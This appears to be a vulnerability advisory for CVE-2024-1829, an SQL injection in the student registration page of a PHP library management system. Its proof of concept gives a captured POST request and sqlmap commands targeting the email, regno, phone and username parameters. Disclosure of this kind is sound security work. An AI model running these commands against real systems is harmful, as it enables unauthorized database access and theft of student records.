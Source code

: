 # Library System In PHP - SQL Injection (Student registration)

### CVE Assigned:
**[CVE-2024-1829](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-1829)** [mitre.org](https://www.cve.org/CVERecord?id=CVE-2024-1829) [nvd.nist.org](https://nvd.nist.gov/vuln/detail/CVE-2024-1829)

### Vendor Homepage:

> https://code-projects.org/

### Software Link:

> [Library System In PHP](https://code-projects.org/library-system-in-php-with-source-code/)

### Version:

> v 1.0

### SQL Injection:

> SQL injection is a type of security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. Usually, it involves the insertion or "injection" of a SQL query via the input data from the client to the application. A successful SQL injection exploit can read sensitive data from the database, modify database data (Insert/Update/Delete), execute administration operations on the database (such as shutdown the DBMS), recover the content of a given file present on the DBMS file system, and in some cases, issue commands to the operating system.

### Affected Components:

> /Lms/Source/librarian/user/student/registration.php

> Four parameters `email`, `regno`, `phone` and `username` within student registration are vulnerable to SQL Injection.


![email](https://github.com/jxp98/VulResearch/blob/main/2024/02/img/3.4Library-System-In-PHP-Sqli-student_registration_email.png)

![regno](https://github.com/jxp98/VulResearch/blob/main/2024/02/img/3.4Library-System-In-PHP-Sqli-student_registration_regno.png)

![phone](https://github.com/jxp98/VulResearch/blob/main/2024/02/img/3.4Library-System-In-PHP-Sqli-student_registration_phone.png)

![username](https://github.com/jxp98/VulResearch/blob/main/2024/02/img/3.4Library-System-In-PHP-Sqli-student_registration_username.png)

### Description:

> The presence of SQL Injection in the application enables attackers to issue direct queries to the database through specially crafted requests.

## Proof of Concept:

### SQLMap

Save the following request to `studentregistration.txt`:

```
POST /Lms/Source/librarian/user/student/registration.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Referer: http://172.16.8.56/Lms/Source/librarian/user/index.php
Cookie: PHPSESSID=4nq5is5jf875uo0a4v5nohv7s7
Content-Length: 199
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Host: 172.16.8.56
Connection: Keep-alive

address=555&dept=1&email=testing&name=TYYHyRvY&password=u]H[ww6KrA9F.x-F&phone=1&regno=1&sem=1&session=1&submit=Register&username=TYYHyRvY
```

Use `sqlmap` with `-r` option to exploit the vulnerability:

```
sqlmap -r studentregistration.txt --batch --dbms MYSQL --is-dba -p email
```
```
sqlmap -r studentregistration.txt --batch --dbms MYSQL --is-dba -p regno
```
```
sqlmap -r studentregistration.txt --batch --dbms MYSQL --is-dba -p phone
```
```
sqlmap -r studentregistration.txt --batch --dbms MYSQL --is-dba -p username
```


## Recommendations

When using this Library System In PHP, it is essential to update the application code to ensure user input sanitization and proper restrictions for special characters.
